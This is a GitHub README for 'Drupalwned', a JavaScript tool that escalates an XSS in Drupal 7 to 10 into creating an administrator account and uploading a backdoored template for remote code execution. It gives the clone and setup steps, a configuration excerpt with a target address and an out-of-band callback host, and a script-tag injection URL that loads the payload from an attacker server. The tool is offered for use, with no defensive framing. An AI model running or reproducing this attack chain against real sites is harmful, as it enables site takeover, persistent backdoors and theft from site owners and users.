 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/Drupalwned/assets/96009982/d113255b-31e1-4837-9760-447b4d0a597d" alt="Drupalwned" width="300">
</h1>

<h4 align="center">Drupal Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilities</a>.</h4>

<p align="center">
  <a href="#about">About</a>  -
  <a href="#key-features">Key Features</a>  -
  <a href="#how-to-use">How To Use</a>  -
  <a href="#examples">Examples</a>  -
  <a href="#contributing">Contributing</a>
</p>

![drupalwned](https://github.com/nowak0x01/Drupalwned/assets/96009982/9815fb8f-7786-4ddc-8ee7-bcd4efd1a7de)


## About
_**Drupalwned**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in Drupal CMS. <br><br>
💧 **This script provides support for **Drupal** **Versions** **7.X.X**, **8.X.X**, **9.X.X** and **10.X.X**.** 💧
<br>

## Key Features

* _**Privilege Escalation**_
  - Creates an administrative user in Drupal.
* _**(RCE) Upload Template**_
  - Upload custom templates backdoored to Drupal.
* _**// Pending**_
  - more ways to get RCE
  
## How To Use

https://github.com/nowak0x01/Drupalwned/assets/96009982/b895ac80-0dce-4b9a-8d85-6402227134d2


<br>

**1\) Clone the Repository**
```bash
git clone https://github.com/nowak0x01/Drupalwned
```

**2\) Edit the script by selecting the desired function and modifying its variable values.** (Example: _**DPCreateAccount**_)
```
// ************************************ ~% Variables %~ ************************************ //

var Target = "https://172.17.0.1:8000/"; // Ex: https://192.168.84.212:8000/drupal/
var Callback = "http://zfi0g0xtiqb6qjh564xr92xnxe35rvfk.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

// DPCreateAccount(); // (Privilege Escalation) - Creates an Administrative user in Drupal.
// DPUploadTemplate(); // (RCE) - Upload a Template module (backdoor) to Drupal.

function DPCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered). - <Mandatory>
    var Username = "nowak";         // (It is recommended to use a valid employee name from the target company). - <Mandatory>
    var Password = `j^QEkyvd7*g3`;  /* - <Mandatory> 
                            Make it at least 12 characters
                            Add lowercase letters
                            Add uppercase letters
                            Add numbers
                            Add punctuation
                                    */
    /* ************************************************************************************************************************************************ */
```

**3\) Start a web server**
```bash
python3 -m http.server 80
```

**4\) Go to the Drupal XSS vector and include** _**drupalwned.js**_
```
https://drupal.example.com/plugin.php?s=<script%20src="//VPS/drupalwned.js"></script>
```

## Examples
🌧️ **_DPCreateAccount()_ - Creates an user in Drupal.**

https://github.com/nowak0x01/Drupalwned/assets/96009982/7f096d5d-c5c4-40b2-9afc-e7b114949392

⛅ **_DPUploadTemplate()_ - Upload a custom template backdoored to Drupal.**

https://github.com/nowak0x01/Drupalwned/assets/96009982/812608dd-b3e3-4695-8efe-7657d7f2168a


# Contributing
If you're interested in contributing, enhancing the existing code, your efforts would be immensely appreciated. Your contributions will play a key role in making this project even better.
<pre>
               r
               ain
               rai
              nrain
             rainrai
            nrainrain
           ainrainrain
          rainrainrainr
         ainrainrainrain
        rainrainrainrainr
      ainrainrainrainrainra         Drupalwned (https://github.com/nowak0x01/Drupalwned)
    inra nrainrainrainrainrai                      @Author: Hudson Nowak
  nrain  inrainrainrainrainrain
 rain   nrainrainrainrainrainrai
nrai   inrainrainrainrainrainrain
rai   inrainrainrainrainrainrainr
rain   nrainrainrainrainrainrainr
 rainr  nrainrainrainrainrainrai
  nrain ainrainrainrainrainrain
    rainrainrainrainrainrainr
      rainranirainrainrainr
           ainrainrain
</pre>
